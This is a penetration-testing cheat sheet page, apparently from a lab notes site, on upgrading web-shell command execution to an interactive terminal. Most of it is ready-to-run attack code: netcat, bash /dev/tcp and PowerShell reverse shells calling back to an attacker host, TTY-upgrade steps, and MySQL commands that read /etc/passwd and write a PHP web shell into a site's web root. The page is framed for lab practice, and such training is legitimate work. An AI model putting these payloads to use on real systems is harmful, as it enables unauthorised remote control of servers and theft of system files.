

{/* VAULT_TASK_FINDER_START */}

import { TargetContextBar } from "/snippets/target-context-bar.jsx";

<TargetContextBar />

{/* VAULT_TASK_FINDER_END */}

{/* Generated from Commands/web-shell-to-terminal.md. Edit the Markdown source, then run scripts/sync_site.py. */}

Replace UPPER_CASE values with your lab values.

[Search this tool’s saved examples](/commands/notebook?tool=web-shell-to-terminal) · [All tools](/index) · [Ports](/enumeration/ports-cheatsheet)

## 1. Kali — listen

**Kali**

```bash
sudo nc -lvnp 443
```

Use the Kali/VPN IP that the target can reach; keep this terminal open.

## 2a. Linux web shell — connect back

**Linux web-shell command field**

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc LHOST 443 > /tmp/f
```

Replace LHOST. When the connection arrives on Kali, follow the Full TTY upgrade below.

## 2b. Windows web shell — connect back

**Windows web-shell command field (cmd.exe)**

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('LHOST',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Choose 2a OR 2b. A waiting web request can be normal while the shell is connected; check the Kali listener before submitting again.

## 3. Linux target — start a PTY

**New Linux shell in Kali**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then press Ctrl-Z to return to your local Kali prompt.

## 4. Kali — restore the connection in raw mode

**Local Kali terminal**

```bash
stty size
stty raw -echo; fg
```

Remember the rows/columns from stty size. Press Enter once or twice after fg.

## 5. Linux target — finish TTY setup

**Remote Linux shell**

```bash
export TERM=xterm
export SHELL=/bin/bash
stty rows ROWS columns COLUMNS
```

Replace ROWS and COLUMNS with the numbers from Kali. If your local terminal is broken after disconnecting, run stty sane; reset on Kali.

## Connect a Linux web execution context to a listener

**Run in:** Linux web application's command-execution field. **Requires:** Confirmed OS-command execution, Bash support, correct request encoding and a reachable Kali listener on TCP 443; the web worker's identity remains the starting identity.

```bash
bash -c 'bash -i >& /dev/tcp/KALI_IP/443 0>&1'
```

**What the result establishes:** Prove command execution and network direction separately, then establish a usable shell and verify identity.

**Next check:** Inspect callback reachability and server-side process limits; if a shell arrives, record id, pwd and network context before selecting a terminal-upgrade method.

## If it fails

| Symptom | Check |
| --- | --- |
| The HTTP request stalls but no shell appears | A web response, a TCP callback and an interactive terminal are different stages; shell syntax and listener/payload compatibility matter. |

## Visual workflow



## Notebook recipes

1 additional examples, grouped by task. Saved as written; prompts, output, original lab values and older syntax may be included.

<AccordionGroup>

<Accordion title="From DB access to the filesystem (and RCE)">

### From DB access to the filesystem (and RCE)

**MySQL and MariaDB Enumeration**

```sql
-- Check whether file operations are allowed and where they're confined
SHOW VARIABLES LIKE 'secure_file_priv';

-- Read an arbitrary local file as the MySQL service account
SELECT LOAD_FILE('/etc/passwd');

-- Write a PHP webshell into the web root → browse to it for RCE
SELECT '<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

{/* VAULT_ORIGINAL_LINK_START */}

**Original note sections:** [MySQL and MariaDB Enumeration — From DB access to the filesystem (and RCE)](/enumeration/mysql-mariadb-cheat-sheet#from-db-access-to-the-filesystem-and-rce)

{/* VAULT_ORIGINAL_LINK_END */}


</Accordion>

</AccordionGroup>

## Related tools and references

- [Windows → Kali reverse shell](/commands/windows-reverse-shell)
- [Upgrade a Linux shell](/commands/shell-upgrade)
- [Evil-WinRM](/commands/evil-winrm)
- [Official documentation 1](https://www.gnu.org/software/bash/manual/html_node/Redirections.html)

{/* VAULT_RELATED_START */}

---

**Source material and related references**

- [Shells, Payloads, and Interactive TTYs](/exploitation/shells-payloads-cheat-sheet)
- [Windows → Kali reverse shell](/commands/windows-reverse-shell)
- [Upgrade a Linux shell](/commands/shell-upgrade)
- [Evil-WinRM](/commands/evil-winrm)

{/* VAULT_RELATED_END */}
